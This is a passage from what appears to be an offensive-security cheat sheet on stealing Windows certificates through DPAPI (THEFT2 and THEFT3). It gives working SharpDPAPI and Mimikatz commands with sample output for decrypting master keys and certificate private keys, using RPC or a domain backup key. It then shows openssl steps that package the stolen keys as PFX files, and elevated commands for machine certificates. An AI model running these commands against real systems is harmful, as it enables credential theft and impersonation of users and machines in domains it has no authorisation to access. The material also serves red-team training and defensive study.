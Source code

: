 ### Certificate theft via DPAPI - THEFT2 & 3
#### User certificates
- With the master key :
```powershell
#With SharpDPAPI
SharpDPAPI.exe certificates /mkfile:key.txt


#With Mimikatz
#Export certificate and its public key to DER
cd C:\users\user1\appdata\roaming\microsoft\systemcertificates\my\certificates\
./mimikatz.exe "crypto::system /file:43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8 /export"
	Key Container  : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab

#Find the master key (test them all until you find the good one)
./mimikatz.exe "dpapi::capi /in:ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad"
	pUniqueName        : te-CYEFSR-a2787189-b92a-49d0-b9dc-cf99786635ab #->good one
	guidMasterKey      : {f216eabc-73af-45dc-936b-babe7ca8ed05}

#Decrypt the master key
./mimikatz.exe "dpapi::masterkey /in:f216eabc-73af-45dc-936b-babe7ca8ed05 /rpc" exit
	key : 40fcaaf0f3d80955bd6b4a57ba5a3c6cd21e5728bcdfa5a4606e1bf0a452d74ddb4e222b71c1c3be08cb4f337f32e6250576a2d105d30ff7164978280180567e
	sha1: 81a2357b28e004f3df2f7c29588fbd8d650f5e70

#Decrypt the private key
./mimikatz.exe "dpapi::capi /in:\"Crypto\RSA\<user_SID>\ed6c2461ca931510fc7d336208cb40b5_cd42b893-122c-49c3-85da-c5fff1b0a3ad\" /masterkey:81a2357b28e004f3df2f7c29588fbd8d650f5e70" exit
	Private export : OK - 'dpapi_private_key.pvk'

#Build PFX certificate
openssl x509 -inform DER -outform PEM -in 43ECC04D4ED3A29EAEF386C14C6B650DCD4E1BD8.der -out public.pem
openssl rsa -inform PVK -outform PEM -in dpapi_private_key.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:bar -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

- With a domain backup key to first decrypt all possible master keys :
```powershell
SharpDPAPI.exe certificates /pvk:key.pvk
```

#### Machine certificates
- Same, but in a elevated context :
```powershell
SharpDPAPI.exe certificates /machine
```

- To convert a PEM file to a PFX :
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
